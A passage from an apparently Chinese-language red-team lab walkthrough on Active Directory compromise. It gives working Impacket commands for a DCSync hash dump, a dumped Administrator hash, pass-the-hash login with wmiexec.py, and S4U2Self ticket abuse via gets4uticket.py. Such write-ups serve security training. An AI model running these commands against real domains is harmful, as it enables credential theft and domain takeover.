 接着我们可以使用`DC-WIN2012$`NTLM Hash来进行DCSync攻击，以转储所有用户的哈希值。  
使用[Impacket](https://github.com/SecureAuthCorp/impacket)工具包中的`secretsdump.py`脚本执行DCSync攻击，导出域内用户Hash

```shell
# 方法一：票据导出
export KRB5CCNAME=/root/Desktop/dc-win2012.ccache
proxychains python3 secretsdump.py -k redteam.com/DC-WIN2012\$@dc-win2012.redteam.com -no-pass -just-dc

# 方法二：Hash导出
proxychains python3 secretsdump.py -hashes :f460feac55234529a3188ecc8438d8fe redteam.com/DC-WIN2012\$@DC-WIN2012.redteam.com -no-pass -just-dc
```

![OrbP4s.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-1077c06c2557520bb0de4cf59a158fa264a292ea.png)

![OrbFCn.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-79433870925fe2b1e931c88f15a6bc4de7e6a5f8.png)

可以得到administrator的Hash值，至此已经得到了最高的administrator权限

```txt
Administrator:500:aad3b435b51404eeaad3b435b51404ee:83a140d89e42046e8daf5394d386a69a:::
```

6 后渗透
-----

之后两种思路：

1. 直接使用administrator的NTLM Hash远程登录
2. 通过S4U2Self扩展协议申请服务票据，如CIFS等

第一种：直接远程登录  
使用[Impacket](https://github.com/SecureAuthCorp/impacket)工具包中的wmiexec.py脚本

```shell
# Hash登录
python3 wmiexec.py -hashes :83a140d89e42046e8daf5394d386a69a redteam.com/administrator@10.10.1.10 -dc-ip 10.10.1.10
```

![OrbtbD.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-8af7e45c66d2779a9e684b6a1df9d3ca9c2e0caf.png)

第二种：票据登录  
使用到[PKINITtools](https://github.com/dirkjanm/PKINITtools)工具中的gets4uticket.py脚本

```shell
# 申请票据，保存为Admin.ccache
python3 gets4uticket.py kerberos+ccache://redteam.com\\DC-WIN2012\$:dc-win2012.ccache@dc-win2012.redteam.com cifs/dc-win2012.redteam.com@redteam.com Administrator@redteam.com Admin.ccache -v

# 导入票据
export KRB5CCNAME=/root/Desktop/Admin.ccache

# 使用票据登录
proxychains python3 wmiexec.py -k redteam.com/administrator@DC-WIN2012.redteam.com -no-pass -dc-ip 10.10.1.10
```
